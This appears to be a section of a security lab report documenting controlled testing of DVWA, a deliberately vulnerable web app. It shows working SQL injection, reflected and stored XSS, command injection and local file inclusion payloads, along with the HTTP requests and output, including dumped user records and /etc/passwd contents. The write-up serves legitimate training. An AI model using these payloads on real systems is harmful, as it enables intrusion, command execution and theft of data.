




# 06 — Controlled Vulnerability Testing & Proof-of-Concept

## 1. Vulnerability Assessment Overview

Controlled testing was performed to validate five primary vulnerability classes across DVWA modules. Testing followed safe proof-of-concept guidelines: non-destructive read operations, local process fingerprinting, and standard browser alerts.

---

## 2. SQL Injection (SQLi)

### Vulnerability Profile
- **Target Module**: `/DVWA/vulnerabilities/sqli/`
- **Target Parameter**: `id` (GET query parameter)
- **Preconditions**: DVWA Security Level set to Low for initial baseline evaluation.

### Baseline Validation
Submitting valid input `User ID: 1` executed a single-record lookup:


- **Observed Result**:
  ```text
  ID: 1
  First name: admin
  Surname: admin
  ```

### Controlled Exploitation
A boolean-based SQL injection payload was supplied:
```sql
1' OR '1'='1
```
The browser submitted the following HTTP request:
```http
GET /DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1
```


- **Observed Result**: The backend SQL query logic was subverted by the tautology (`'1'='1'`), dumping all records from the `users` table:
  1. `ID: 1' OR '1'='1` | `First name: admin` | `Surname: admin`
  2. `ID: 1' OR '1'='1` | `First name: Gordon` | `Surname: Brown`
  3. `ID: 1' OR '1'='1` | `First name: Hack` | `Surname: Me`
  4. `ID: 1' OR '1'='1` | `First name: Pablo` | `Surname: Picasso`
  5. `ID: 1' OR '1'='1` | `First name: Bob` | `Surname: Smith`

### Root Cause Analysis
Static analysis of DVWA's high-level SQL implementation was performed via:
```bash
sudo sed -n '1,200p' /var/www/html/DVWA/vulnerabilities/sqli/source/high.php
```



- **Observed Fact**: The application retrieves the ID from session storage (`$id = $_SESSION['id'];`) and concatenates it directly into dynamic SQL query strings without parameterization:
  ```php
  $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
  $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
  ```

---

## 3. Reflected Cross-Site Scripting (Reflected XSS)

### Vulnerability Profile
- **Target Module**: `/DVWA/vulnerabilities/xss_r/`
- **Target Parameter**: `name` (GET parameter)
- **Preconditions**: Standard browser navigation.

### Controlled Exploitation
An inline JavaScript script block was injected into the parameter:
```html
<script>alert('DVWA-XSS-Test')</script>
```
Constructed request:
```http
GET /DVWA/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27DVWA-XSS-Test%27%29%3C%2Fscript%3E HTTP/1.1
```



- **Observed Result**: The application reflected the unsanitized parameter into the browser DOM, executing the JavaScript payload immediately and rendering an alert modal titled `127.0.0.1` displaying the string `DVWA-XSS-Test`.

---

## 4. Stored Cross-Site Scripting (Stored XSS)

### Vulnerability Profile
- **Target Module**: `/DVWA/vulnerabilities/xss_s/`
- **Target Form**: Guestbook form (`txtName`, `mtxMessage`)
- **Preconditions**: Low security level guestbook submission.

### Controlled Exploitation
A guestbook message was submitted with the following content:
- **Name**: `Test`
- **Message**: `<script>alert('DVWA-Stored-XSS')</script>`



- **Observed Result**: The payload was persisted into the database guestbook table. Upon subsequent page reloads, the script executed automatically in the browser context, firing an alert modal displaying `XSS`.

---

## 5. Command Injection (OS Command Execution)

### Vulnerability Profile
- **Target Module**: `/DVWA/vulnerabilities/exec/`
- **Target Form Field**: `ip` (Ping a device form)
- **Preconditions**: Standard form submission.

### Baseline Validation
Submitting `127.0.0.1` executed a standard system ping:


- **Observed Result**: 4 ICMP packets transmitted and received from 127.0.0.1 with 0% packet loss.

### Controlled Exploitation
A command separator (`;`) was injected alongside a benign system identification utility:
```bash
127.0.0.1; whoami
```


- **Observed Result**: The application executed the ping routine and appended the second shell command, outputting the Linux user identity executing the web process:
  ```text
  --- 127.0.0.1 ping statistics ---
  4 packets transmitted, 4 received, 0% packet loss, time 3025ms
  rtt min/avg/max/mdev = 0.028/0.030/0.033/0.002 ms
  www-data
  ```
- **Security Impact**: Verifies arbitrary operating system command execution under the privileges of the web service account (`www-data`).

---

## 6. Local File Inclusion (LFI)

### Vulnerability Profile
- **Target Module**: `/DVWA/vulnerabilities/fi/`
- **Target Parameter**: `page` (GET parameter)
- **Preconditions**: File inclusion module active.

### Controlled Exploitation
Path traversal sequences (`../../../../etc/passwd`) and direct absolute file paths (`/etc/passwd`) were supplied via the `page` query parameter:
```http
GET /DVWA/vulnerabilities/fi/?page=/etc/passwd HTTP/1.1
```



- **Observed Result**: The application passed the user-supplied file path directly to PHP's file inclusion handler, displaying the contents of `/etc/passwd` at the top of the rendered web page. Exposed system user records included:
  - `root:x:0:0:root:/root:/usr/bin/zsh`
  - `daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`
  - `bin:x:2:2:bin:/bin:/usr/sbin/nologin`
  - `www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`
  - `kali:x:1000:1000::/home/kali:/usr/bin/zsh`
